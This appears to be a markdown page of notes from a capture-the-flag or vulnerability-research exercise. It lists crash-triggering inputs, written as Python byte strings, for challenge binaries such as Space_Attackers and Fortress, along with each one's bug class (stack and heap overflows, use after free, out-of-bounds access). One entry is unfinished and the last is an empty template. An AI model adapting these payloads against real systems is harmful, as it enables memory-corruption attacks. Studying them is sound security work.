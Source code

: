 # Space_Attackers

## Type

Stack based buffer overflow.

## Crash

```python
'magic\n' + ('\n\n\n\nd\n' * 24) + ('\n' * 16) + ((('w\n' * 10) + 's\n') * (280)) + 's\n' + 'd\n' + 'q\n'
```

----

# Fortress

## Type

Heap buffer overflow.

## Crash

```python
"\x10\x87\x04\x08\n-1337\n0\n2\n1\n0\n1\n0\n6\n0\nThis is a great program Love it! Thanks for making this :) G\x24\x35\x06\x08I am done with this-\n6\n1\nHELO\n"
```

----

# electronictrading

TODO: Figure out which vuln this crash is.

## Type

Dereference of untrusted pointer
Integer overflow or wraparound
Improper validation of array index
Heap-based buffer overflow
Use after free
Access of resource using incompatible type

## Crash

```python
"\x03" + "\x00" * 3 + "A" * 4 + "\x00" * 12 + "\x05" + "\x00" * 19
```

----

# UTF-late

## Type

Improper handling of unicode encoding

## Crash

```python
'\x01\x00\x00\x00\x2e\x2e\xc0\xaf\x61\x64\x6d\x69\x6e\xc0\xaf\x41\x41\x41\x41\x00\x04\x00\x00\x00\x42\x42\x42\x42\xff\xff\xff\xff'
```

----

# cotton_swab_arithmetic

## Type

Out-of-Bounds Read or Write

## Crash

```python
'\x26\x00\x02\xff\xff\x10\x00\x22\xff\xff\x01\x00\x07\x00\x00\x05\x00\x00\x48\x22\xff\xff\x00\x00\x0f\x00\x00\x08\x20\x00\x00\x05\x00\x07\x00\x00\x00\x00\xaa\xaa'
```

----

# next


## Type


## Crash



